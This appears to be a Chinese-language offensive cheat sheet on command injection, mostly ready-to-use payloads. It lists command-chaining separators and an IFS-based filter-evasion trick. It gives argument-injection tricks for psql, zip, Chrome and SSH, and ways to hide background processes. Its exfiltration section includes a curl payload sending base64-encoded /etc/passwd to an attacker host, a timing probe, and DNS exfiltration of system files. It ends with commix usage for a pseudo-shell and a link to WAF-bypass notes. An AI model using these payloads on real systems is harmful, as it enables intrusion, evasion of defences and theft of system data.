 # 命令注入漏洞

链接命令

```bash
command1; command2
command1 && command2
command1 || command2
command1 & command2
command1 | command2

# Unix和Windows系统均支持
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id

# 仅Unix系统支持
`ls`
$(ls)
ls; id
ls${LS_COLORS:10:1}${IFS}id
```

## 1.参数注入

SQL
```bash
psql -o'|命令'
psql -o'|id>/tmp/wolf'
```

ZIP
```bash
zip -T -m -TT '命令 #' 自定义压缩包名.zip 任意现有文件
zip -T -m -TT 'id> /tmp/whoami #' wolf.zip wolf.txt
```

Chrome
```bash
chrome '--gpu-launcher="id>/tmp/foo"'
```

SSH
```bash
ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
```

## 2.数据泄露

常见有效负载
```bash
;`curl%20--data%20%22data=$(base64%20/etc/passwd)%22%20https://攻击者主机`
```

定时攻击
```bash
/usr/bin/time sh -c 'if [ $(whoami | cut -c 1) == "r" ]; then sleep 5; fi'
```

DNS数巨泄露
```bash
for i in $(id) ; do host "$i.DNS主机地址 "; done
$(host $(cat /etc/passwd | head -n1 | sed 's/[ ,]/-/g' | tr -d '.').DNS主机地址)
```

## 3.命令置入后台

类Unix
```bash
python long_running_script.py > /dev/null 2>&1 &
```

Windows
```bash
Start-Process -FilePath "powershell" -ArgumentList "-Command `"& { .\long_running_script.ps1 > $null }`"" -WindowStyle Hidden
start /B cmd /C "long_running_script.bat > NUL 2>&1"
```

## 4.伪终端shell

Commix
```bash
commix --url="WEB应用程序URL " --cookie="Cookie值" --data="请求参数"
键入: y/yes
```

# WAF绕过

[WAF](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E4%B8%89%E7%AB%A0/WEB%E6%BC%8F%E6%B4%9E%E8%BF%9B%E9%98%B6/%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/waf.md)
